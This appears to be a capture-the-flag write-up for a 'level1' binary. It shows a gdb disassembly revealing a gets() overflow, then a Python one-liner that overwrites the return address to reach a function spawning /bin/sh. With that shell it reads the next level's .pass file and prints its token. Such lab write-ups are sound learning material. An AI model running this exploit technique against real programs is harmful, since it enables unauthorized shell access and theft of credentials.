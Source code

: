 As seen in the disassembled code, the program uses the gets() function to take user input :

```
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:    push   %ebp
   0x08048481 <+1>:    mov    %esp,%ebp
   0x08048483 <+3>:    and    $0xfffffff0,%esp
   0x08048486 <+6>:    sub    $0x50,%esp
   0x08048489 <+9>:    lea    0x10(%esp),%eax
   0x0804848d <+13>:   mov    %eax,(%esp)
   0x08048490 <+16>:   call   0x8048340 <gets@plt>
   0x08048495 <+21>:   leave  
   0x08048496 <+22>:   ret    
End of assembler dump.
```

By examining the man page for the gets() function, it can see that this function is deprecated and poses some significant security vulnerability:
> Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.

We try to do a buffer overflow by inputting a string exceeding 100 characters:

```
./level1
letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42
Segmentation fault (core dumped)
```

This confirmed the presence of a buffer overflow. Next, we determined the buffer size using gdb:
```
gdb ./level1
(gdb) disass main
```
We found that the buffer size is 0x50, or 80 bytes.

We then examined all functions in the program with `info functions` and identified a `run` function that calls the `system` function:
```
(gdb) info functions
0x080482f8  _init
[...]
0x08048444  run
0x08048480  main
[...]

(gdb) disass run
0x08048444 <+0>:	push   %ebp
0x08048445 <+1>:	mov    %esp,%ebp
[...]
0x08048472 <+46>:	movl   $0x8048584,(%esp)
0x08048479 <+53>:	call   0x8048360 <system@plt>
[...]

(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```
To exploit the program, we generated a string of 76 characters followed by the address of the `run` function (0x08048444) in little-endian format (\x44\x84\x04\x08):
```
python -c "print('-' * 76 + '\x44\x84\x04\x08')" > /tmp/test
cat /tmp/test - | ./level1
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
